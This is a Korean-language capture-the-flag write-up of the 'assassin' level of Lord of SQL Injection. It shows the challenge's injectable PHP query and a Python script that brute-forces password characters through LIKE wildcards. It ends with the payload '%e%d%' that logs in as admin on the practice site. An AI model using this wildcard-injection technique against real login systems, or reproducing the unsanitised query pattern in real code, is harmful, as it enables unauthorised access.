 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - assassin 문제풀이"
excerpt_separator: <!--more-->
tags:
  - Write-up
  - Lord of SQL Injection
---
```


이번에는 문제 이름이 몬스터 이름이 아니다.  

`assassin` 문제인데, 개인적으로 재밌던 문제이다.  

<!--more-->

코드는 다음과 같다.  

```php
-------------------------------------------------------
query : select id from prob_assassin where pw like ''
-------------------------------------------------------

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_assassin where pw like '{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("assassin"); 
  highlight_file(__FILE__); 
?>
```

필터링이 `'(싱글쿼터)` 딱 한개만 있다.  

그리고 `=` 대신에 `like`이 쓰였다.  

처음에는 `'`를 우회하는 방법이 있을 거라고 생각 해 이 부분에 초점을 맞추어 문제를 풀어보려 했다.  

그런데 아무리 해도 우회를 하는 방법을 찾을수가 없었다.  

그러다 눈에 띈 부분이 왜 `=`가 아니라 `like`을 사용 했을까 였다.  

나는 단순히 `=`와 `like`가 동일하다고 생각했는데, 뭔가 다른 점이 있을 것 같았다.  

그래서 구글에 `mysql like`이라고 검색을 해봤는데, `%`를 알게 되었다.  

`like`을 사용한다면, `%`를 이용 해 특정 문자가 있는 행을 추출할 수 있다.  

예를 들어 아래와 같은 쿼리문이 있다고 가정해보자.  

```
select * from user where id like '%a%';
```

이 경우, `%`는 `모든 문자`를 의미하게 된다.  

때문에 `%a%`라고 한다면, `a`의 앞뒤로 어떠한 문자가 있는 경우를 말한다.  

즉, `man`, `woman` 등은 `a`의 앞뒤로 문자가 있어 조건에 부합하게 된다.  

반면 `apple`는 `a`의 앞에 문자가 없기 때문에 조건에 맞지 않는다.  

그래서 이 방법을 가지고 `assassin` 문제를 풀기로 했다.  

가장 먼저 테스트 한 것은 그냥 `%`만 입력 해 보는 것이었다.  

`pw`에 분명 문자가 있을테니, `pw`에 `뭐라도 문자가 있는 행`을 추출 해 보려 했다.  

그런데 `Hello guest`가 출력되었다.  

아마도 테이블에 `guest`가 `admin`보다 위에 있어 먼저 추출 된 것 같다.  

그래서 이번에는 `%a%` 형태로 만들어서 하나하나 테스트 해 보기로 했다.  

손으로 하려다가 귀찮아져서 아래와 같이 코드를 구현했다.  

```python
import urllib2
import urllib
import requests

flag = ""
length = 0

url = "http://los.rubiya.kr/assassin_14a1fd552c61c60f034879e5d4171373.php?pw=%"
session = dict(PHPSESSID = "YOUR SESSION ID")

print "[+] Start"

print "[+] Find password"

for i in range(48, 128):
	try:
		query = url + chr(i) + "%"
		r = requests.post(query, cookies=session)
	except:
		print "[-] Error occur"
		continue

	if 'Hello admin' in r.text:
		flag += chr(i)
		print "[+] Found :", flag

print "[+] Found password : ", flag
print "[+] End"
```

그런데 결과가 안나왔다.(눙물...)  

그래서 이번에는 `Hello guest`가 출력되는 문자를 찾도록 조건문을 수정 해 다시 테스트 해 보았다.  

그 결과 아래와 같은 문자들을 얻을 수 있었다.  

```
$ python ex.py 
[+] Start
[+] Find password
[+] Found : 0
[+] Found : 01
[+] Found : 012
[+] Found : 0129
[+] Found : 0129D
[+] Found : 0129DE
[+] Found : 0129DEF
[+] Found : 0129DEF_
[+] Found : 0129DEF_d
[+] Found : 0129DEF_de
[+] Found : 0129DEF_def
[+] Found password :  0129DEF_def
[+] End
```

아마도 테이블에서 `guest`와 `admin`의 `pw`가 같은 문자들로만 이루어져 있고, `guest`가 `admin`보다 위에 있어 `guest`만 출력되는 것 같다.  

그래서 저 문자를 적절하게 조합하면 `admin`을 얻을 수 있지 않을까 생각 해, 이것저것 시도 해 보다 보니 아래와 같이 입력했을 때 문제를 풀 수 있었다.  

```
?pw=%e%d%
```

```php
------------------------------------------------------------
query : select id from prob_assassin where pw like '%e%d%'
------------------------------------------------------------

Hello admin
ASSASSIN Clear!
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/\'/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_assassin where pw like '{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("assassin"); 
  highlight_file(__FILE__); 
?>
```

`ASSASSIN Clear!!`